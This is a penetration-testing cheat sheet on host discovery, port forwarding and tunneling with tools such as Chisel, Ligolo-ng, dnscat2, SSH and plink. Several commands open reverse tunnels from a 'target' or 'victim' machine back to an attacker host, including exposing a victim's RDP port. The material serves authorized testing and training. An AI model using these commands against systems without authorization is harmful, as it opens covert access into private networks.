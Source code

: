 # 🚢 Port Redirection and Tunneling

## Ping Sweep

```shell
# linux
nmap -v -sn x.x.x.1-253
nmap -sn x.x.x.0/24

for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
for ip in 192.168.1.{1..254}; do ping -c1 -W1 $ip &>/dev/null && echo "$ip is up"; done
fping -a -g 192.168.1.1 192.168.1.254 2>/dev/null

# windows cmd
for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.1.%i | find "Reply"
# windows ps
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```

## Port Redirection

### Socat

```shell
socat TCP-LISTEN:<local_port>,fork TCP:<ip>:<port>
```

## Port Forwarding

### SSH Local Port Forwarding

```shell
# forwards local machine port 8080 to a remote machine's port 80
ssh -L 8080:localhost:80 user@ssh_server
```

### SSH Remote Port Forwarding

```shell
# forwards a remote machine's port 80 to the local machine's port 9090
ssh -R 127.0.0.1:9090:<target>:80 user@kali_machine
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse

# create client on remote machine
chisel client <local_host>:8080 R:<local_port>:localhost:<remote_port>
```

## Tunneling

### Ligolo

> <https://github.com/nicocha30/ligolo-ng/releases>

```shell
# create ligolo interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# start the proxy on attacker machine
./li-proxy -selfcert -laddr 0.0.0.0:443

# upload the agent to the target machine and start it
./li-agent -connect <attacker_ip>:443 -ignore-cert
agent.exe -connect <attacker_ip>:443 -ignore-cert

# the connection will be displayed in the proxy
session # choose the session
ifconfig # show subnets of the agent
# add the subnet to the routing table
sudo ip route add <subnet> dev ligolo
# back in ligolo, start it
start
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse --socks5

# create client on remote machine
chisel client <local_host>:8080 R:socks

# add the port asigned by chisel to /etc/proxychains.conf
# use proxychains to interact with the internal network 
sudo proxychains <command>

# create a client and add an extra port forwarding (useful to access a web page from browser)
./chisel client <local_host>:8080 R:socks R:4545:localhost:80
```

### SSH Dynamic Port Forwarding

```shell
# creates a dynamic tunnel between local host and target
ssh -D 9050 user@10.4.213.215

# add port to /etc/proxychains4.conf
socks5 127.0.0.1 9050

# use proxychains to interact with the internal network 
sudo proxychains <command>
```

### DNS Tunneling

```shell
dnscat2-server feline.corp

# from the victim machine
dnscat feline.corp

# from the server
windows -i <id>
? for help
```

### Sshuttle

```shell
# creates a VPN-like tunnel between networks
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

## Windows Tools

### ssh.exe

```shell
# creates a dynamic reverse tunnel between current host and attack host
ssh -N -R 9998 kali@192.168.45.171

# configure proxychains in /etc/proxychains4.conf
socks5 127.0.0.1 9998

# using proxychains to interact with 
sudo proxychains <command> <ip>
```

### Plink

```shell
# creates an SSH tunnel from a local port to a remote service
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

### Netsh

```shell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

# show active interfaces
netsh interface portproxy show all
```
